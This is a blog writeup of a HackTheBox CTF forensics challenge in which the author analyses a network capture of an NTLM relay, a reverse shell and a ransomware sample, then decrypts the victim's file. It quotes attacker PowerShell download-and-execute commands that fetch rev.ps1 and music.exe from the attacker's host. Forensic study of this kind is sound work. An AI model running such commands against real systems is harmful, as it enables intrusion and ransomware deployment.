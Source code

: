 ```yaml
---
layout: post
title:  "writeup: RomHack CTF 2021 - Pay the ransom"
date:   2021-09-27
permalink: writeups/romhack-2021-pay-the-ransom
---
```


This is a writeup for the "Pay the ransom" forensics challenge from RomHack CTF
2021 organized by [HackTheBox](https://www.hackthebox.eu).

As the initial setup for the challenge we receive two files, _invoice.pdf.enc_ and
_capture.pcap_, as well as a brief from the victim saying that their files are
encrypted. Unfortunately I did not copy the message before the CTF ended, so it's
gone for good now. The PCAP file is a network traffic capture file and the enc-file
is presumably one of the victim's files in encrypted form, which they said they
urgently needed to be decrypted.

I used Wireshark to browse the PCAP file. What I usually do with PCAP files in
CTF's is to see what are the most used protocols and quickly scan through the
entire thing to get a very rough overview of what has happened. In this case it
looks like there was some HTTP and SMB traffic at the start of the capture,
followed by plenty of plain TCP packets, and ending with a short HTTP interaction.
My initial hunch for what the large plain TCP stream would be was either an
encrypted communications channel, or an encrypted data transfer. Or both.

In the image below we can see that 192.168.1.8 (presumably the victim) is using
WebDAV to communicate with 192.168.1.16, the attacker, which in turn responds with
an NTLM authentication request. I'm not very familiar with the NTLM protocol, but
based on the capture it looks like the attacker is reusing the authentication
process to impersonate as the victim to the SMB service at 192.168.1.11.

[![HTTP-NTLM-SMB]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)

If we look at the SMB traffic we see that the attacker has now authenticated as
CORP\fcastle. We also see that it is connecting to the \IPC$ share and using
SVCCTL. I don't know much about the details of how utilities like PsExec do
command execution over SMB, but my guess is it looks something like what we see
in this capture file. Following the TCP stream related to the SMB traffic we can
see that there are PowerShell commands being sent to 192.168.1.11.

[![SMB PowerShell]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)

Let's decode that base64-encoded execute.bat:

``` bash
printf "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADYAOgA4ADAAOAAwAC8AcgBlAHYALgBwAHMAMQAnACkAOwAkAHAAYQByAHQAMQA9ACIASABUAEIAewBuADAAdABfAHAANAB5ADEAbgBnACIA" | base64 -d

# Outputs:
# iex (new-object net.webclient).DownloadString('http://192.168.1.16:8080/rev.ps1');$part1="HTB{n0t_p4y1ng"
```

The attacker seems to have upgraded to a reverse shell. We've also got the first
part of the flag: `HTB{n0t_p4y1ng`.

When looking for _rev.ps1_ and the resulting reverse shell, I noticed that the
+/- buttons in the follow-dialogue are a handy way of browsing the TCP streams.
The HTTP request for _rev.ps1_ is in stream 7 and the shell in 8.

[![TCP stream
browsing]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)

The reverse shell was doing some basic enumeration of the system and using
Mimikatz. It also issued the following command:

``` powershell
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.16:8080/music.exe","C:\Users\Public\Music\music.exe")
```

The brief also mentioned that the victim was listening to music while this
happened. This was pretty much a hint for what to investigate next. I extracted
_music.exe_ and opened it in dotPeek on a Windows VM. As a side note, I use
[Flare VM](https://github.com/mandiant/flare-vm) as my Windows test machine, as
it installs plenty of handy software.

The binary decompiles nicely and reveals a `Reverse_Shell` namespace. Sounds
relevant. There is also a string called `part2` with the value `_th3_r4ns0m_1s`.
No doubt the 2nd part of the flag. Most of the code in the reverse shell is
fairly standard - open a TCP stream to C&C server, encrypt (xor) the data,
receive commands for either RCE or something specific. The most relevant part of
the program can be seen in the image below:

[![Reverse shell encryption
command]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-revshell.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-revshell.png)

The function `injran` takes a xor key (`part2` was used as the key) and decrypts
an Assembly object from the attacker's server. I extracted the the _party.b64_
file from the capture and this time used
[CyberChef](https://gchq.github.io/CyberChef/) to decode and decrypt the data,
which turns out to be a `PE32+ executable (console) x86-64 Mono/.Net assembly,
for MS Windows` file. Decompiling it in dotPeek reveals some key information
about how the encryption was done. The images below are the key takeaways.

[![AES assembly object part
1]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-aes1.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-aes1.png)

[![AES assembly object part
2]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-aes2.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-aes2.png)

The program creates an AES cipher in CFB mode with blocksize of 128, PKCS7
padding, a PBKDF2 generated key with 50000 iterations with a randomly generated
password, and a randomly generated salt. The salt is prepended to the resulting
encrypted file, and the password is xored with a key (the same xor key). The
encrypted key is then sent to the attacker's server over HTTP to _/post.php_.
Those are all the required parameters for encryption and decryption. The
password to generate the key can easily be extracted from the capture file and
decrypted with the xor key. Below is an image of the decrypted PDF.

[![Invoice
PDF]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)]({{site.baseurl}}{{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)

We've successfully decrypted the PDF and can most likely decrypt any other files
the malware might have encrypted. The full flag is:

`HTB{n0t_p4y1ng_th3_r4ns0m_1s_4lw4ys_th3_4nsw3r!!!}`

## This didn't really happen

What you just read was my recreation of how I would have properly solved this
challenge if I had had more than just 2 hours to solve it. After quickly
scanning through the PCAP for used protocols I just filtered to show HTTP
traffic. I saw the request to _/music.exe_ and thought it looked very
suspicious, so I completely skipped part 1. I spent most of the remaining time
reversing _music.exe_ and the rest. At this point I thought I had all the
necessary pieces: the required parameters to decrypt _invoice.pdf.enc_. I
fumbled around with CyberChef to decrypt the file, and had an almost valid PDF
file from the decryption. However, there were plenty of junk bytes at the start
of the resulting file, and I couldn't get a viewer to open it. It was corrupted.
I didn't know how to extract the IV and wasn't sure about the format of the
encrypted file. Nevertheless, at this point it was 3 minutes past the deadline,
so no points for my team :(.

I spent about another hour trying to get the PDF into a valid file and looking
for the first part of the flag. After missing the deadline I eventually realized
that I didn't need the correct IV since the decrypted file was only missing the
first few bytes of a valid PDF header (looks something along the lines of
`%PDF-17...`). When I noticed that the PDF only had the final part of the flag,
I felt both frustrated and relieved. Frustrated because it still wasn't over,
but relieved that it wasn't just a matter of minutes by which I'd missed the
deadline. No need to wonder about "If I had only done X I could've made it!".

Anyway, the challenge was fun and didn't feel too challenging for me, which was
a welcome change. Sometimes it's nice to do challenges where you pretty much
know where you're going for most of the time. I give this challenge seven and a
half bits out of four possible qubits or whatever...
